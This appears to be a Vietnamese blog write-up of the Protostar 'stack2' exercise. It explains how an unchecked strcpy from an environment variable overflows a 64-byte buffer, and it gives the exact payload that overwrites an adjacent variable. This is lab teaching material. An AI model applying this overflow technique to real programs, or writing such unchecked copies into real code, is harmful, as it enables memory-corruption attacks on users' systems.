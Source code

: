 ```yaml
---
layout: post
title: stack2
---
```

stack2 cũng tương tự như stack0 và stack1.
Trong bài này, chúng ta tiếp tục sử dụng phương thức lưu đè vùng bộ nhớ của biến khác bằng hàm `strcpy`.
Source code của stack2 như sau:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

Khi disassemble hàm `main`, ta được đoạn chương trình sau:
```asm
0x08048494 <main+0>:    push   ebp
0x08048495 <main+1>:    mov    ebp,esp
0x08048497 <main+3>:    and    esp,0xfffffff0
0x0804849a <main+6>:    sub    esp,0x60
0x0804849d <main+9>:    mov    DWORD PTR [esp],0x80485e0
0x080484a4 <main+16>:   call   0x804837c <getenv@plt>
0x080484a9 <main+21>:   mov    DWORD PTR [esp+0x5c],eax
0x080484ad <main+25>:   cmp    DWORD PTR [esp+0x5c],0x0
0x080484b2 <main+30>:   jne    0x80484c8 <main+52>
0x080484b4 <main+32>:   mov    DWORD PTR [esp+0x4],0x80485e8
0x080484bc <main+40>:   mov    DWORD PTR [esp],0x1
0x080484c3 <main+47>:   call   0x80483bc <errx@plt>
0x080484c8 <main+52>:   mov    DWORD PTR [esp+0x58],0x0
0x080484d0 <main+60>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484d4 <main+64>:   mov    DWORD PTR [esp+0x4],eax
0x080484d8 <main+68>:   lea    eax,[esp+0x18]
0x080484dc <main+72>:   mov    DWORD PTR [esp],eax
0x080484df <main+75>:   call   0x804839c <strcpy@plt>
0x080484e4 <main+80>:   mov    eax,DWORD PTR [esp+0x58]
0x080484e8 <main+84>:   cmp    eax,0xd0a0d0a
0x080484ed <main+89>:   jne    0x80484fd <main+105>
0x080484ef <main+91>:   mov    DWORD PTR [esp],0x8048618
0x080484f6 <main+98>:   call   0x80483cc <puts@plt>
0x080484fb <main+103>:  jmp    0x8048512 <main+126>
0x080484fd <main+105>:  mov    edx,DWORD PTR [esp+0x58]
0x08048501 <main+109>:  mov    eax,0x8048641
0x08048506 <main+114>:  mov    DWORD PTR [esp+0x4],edx
0x0804850a <main+118>:  mov    DWORD PTR [esp],eax
0x0804850d <main+121>:  call   0x80483ac <printf@plt>
0x08048512 <main+126>:  leave
0x08048513 <main+127>:  ret
```

Biến `variable` lấy giá trị của environment variable có tên `"GREENIE"`.
Sau đó, giá trị này được copy sang cho `buffer` qua hàm `strcpy`.
Rõ ràng, tương tự như 2 bài trước, nếu giá trị của `variable` lớn hơn 64 byte thì khi copy sang `buffer` sẽ bị tràn sang vùng nhớ của biến khác.
Cụ thể, biến `modified` chiếm 4 byte, bắt đầu từ `esp + 0x58`, còn biến `buffer` chiếm 64 byte bộ nhớ từ `esp + 0x18` đến `esp + 0x57`.
`variable` được lưu bắt đầu từ địa chỉ `esp + 0x5c`. Lưu ý, `variable` có dạng pointer, nên giá trị dùng để copy sang `buffer` thật sự nằm ở vùng nhớ có địa chỉ lưu trong `variable`.

Để dễ tưởng tượng, sau đây là 96 byte bộ nhớ bắt đầu từ địa chỉ `esp`, trước khi `variable` nhận giá trị từ environment variable.
Trong ví dụ này, environment variable có giá trị là `"hello"`, tương đương với chuỗi byte `0x68` `0x65` `0x6c` `0x6c` `0x6f`.
Phân biệt theo màu: <span style="color:aqua">buffer</span>, <span style="color:orangered">modified</span>, và <span style="color:yellow">modified</span>.
<pre style="color:darkgrey">
0xbffff730:     0x080485e0      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff740:     0xb7fd7ff4      0xb7ec6165      <span style="color:aqua">0xbffff758</span>      <span style="color:aqua">0xb7eada75</span>
0xbffff750:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08049748</span>      <span style="color:aqua">0xbffff768</span>      <span style="color:aqua">0x08048358</span>
0xbffff760:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x08049748</span>      <span style="color:aqua">0xbffff798</span>      <span style="color:aqua">0x08048549</span>
0xbffff770:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08048530</span>      <span style="color:aqua">0xbffff798</span>
0xbffff780:     <span style="color:aqua">0xb7ec6365</span>      <span style="color:aqua">0xb7ff1040</span>      <span style="color:orangered">0x00000000</span>      <span style="color:yellow">0xbffff9ec</span>
...
<span style="color:yellow">0xbffff9ec</span>:      "hello"
</pre>

<pre>
0xbffff730:     0xbffff748      0xbffff9ec      0xb7fff8f8      0xb7f0186e
0xbffff740:     0xb7fd7ff4      0xb7ec6165      <span style="color:aqua">0x6c6c6568</span>      <span style="color:aqua">0xb7ea006f</span>
0xbffff750:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08049748</span>      <span style="color:aqua">0xbffff768</span>      <span style="color:aqua">0x08048358</span>
0xbffff760:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x08049748</span>      <span style="color:aqua">0xbffff798</span>      <span style="color:aqua">0x08048549</span>
0xbffff770:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08048530</span>      <span style="color:aqua">0xbffff798</span>
0xbffff780:     <span style="color:aqua">0xb7ec6365</span>      <span style="color:aqua">0xb7ff1040</span>      <span style="color:orangered">0x00000000</span>      <span style="color:yellow">0xbffff9ec</span>
...
<span style="color:yellow">0xbffff9ec</span>:     0x6c6c6568      0x4f4c006f      0x4d414e47      0x73753d45
</pre>

Để exploit được chương trình, ta sẽ gán 68 byte giá trị cho environment variable `"GREENIE"` là `"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888\x0a\x0d\x0a\x0d"`.
Giá trị của `modified` sẽ được sửa thành `0x0d0a0d0a`.
Sau đây là bộ nhớ sau `strcpy`.
(`esp` có thể thay đổi tùy theo environment variable `"GREENIE"` thay đổi, nhưng các offset từ `esp` để tìm ra đúng biến thì giữ nguyên.)

<pre>
0xbffff6f0:     0xbffff708      0xbffff9ad      0xb7fff8f8      0xb7f0186e
0xbffff700:     0xb7fd7ff4      0xb7ec6165      <span style="color:aqua">0x41414141</span>      <span style="color:aqua">0x42424242</span>
0xbffff710:     <span style="color:aqua">0x43434343</span>      <span style="color:aqua">0x44444444</span>      <span style="color:aqua">0x45454545</span>      <span style="color:aqua">0x46464646</span>
0xbffff720:     <span style="color:aqua">0x47474747</span>      <span style="color:aqua">0x48484848</span>      <span style="color:aqua">0x31313131</span>      <span style="color:aqua">0x32323232</span>
0xbffff730:     <span style="color:aqua">0x33333333</span>      <span style="color:aqua">0x34343434</span>      <span style="color:aqua">0x35353535</span>      <span style="color:aqua">0x36363636</span>
0xbffff740:     <span style="color:aqua">0x37373737</span>      <span style="color:aqua">0x38383838</span>      <span style="color:orangered">0x0d0a0d0a</span>      <span style="color:yellow">0xbffff9</span>00
...
<span style="color:yellow">0xbffff9ad</span>:      "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888\n\r\n\r"
</pre>

Cũng lưu ý thêm, biến `variable` có 1 byte đầu tiên bị ảnh hưởng do chuỗi nhập vào là kiểu null-terminated.
Giá trị mong đợi của nó là `0xbffff9ad`, thay vì `0xbffff900`.

## Ref
```bash
user@protostar:~$ export GREENIE=$'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888\x0a\x0d\x0a\x0d'
user@protostar:~$ stack2
you have correctly modified the variable
```
